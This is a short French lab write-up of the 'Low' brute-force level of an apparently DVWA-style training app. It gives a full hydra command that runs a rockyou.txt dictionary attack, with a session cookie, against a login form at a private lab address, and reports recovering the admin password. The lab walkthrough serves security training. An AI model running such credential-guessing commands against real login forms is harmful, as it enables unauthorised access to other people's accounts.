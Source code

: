 # Niveau "Low"

Le challenge présente l'équivalent d'une mire d'authentification :

![](../../../../.gitbook/assets/754b2c241667e45c33ef2f42f51e09f2.png)

Après un certain nombre de tentatives, il est évident que l’application n’implémente aucune protection contre les attaques de type brute force.

J'utilise alors  `hydra` afin de retrouver le mot de passe de l'administrateur en utilisant une attaque par dictionnaire avec le fichier `rockyou.txt` (fichier disponible sur Kali) :

![](../../../../.gitbook/assets/a64aa6f881e7695546747388c1f9f874.png)

Etant pas très lisible sur l'impression écran, voici la commande que j'utilise :

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.203 -s 8080 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=jnh28vv1muneunmmbffhn25c45; security=low;"`

Brute force réussit, le mot de passe de l'administrateur est présent dans le dictionnaire :

![](../../../../.gitbook/assets/5ff11daad3b3614252032592c5b7b93a.png)
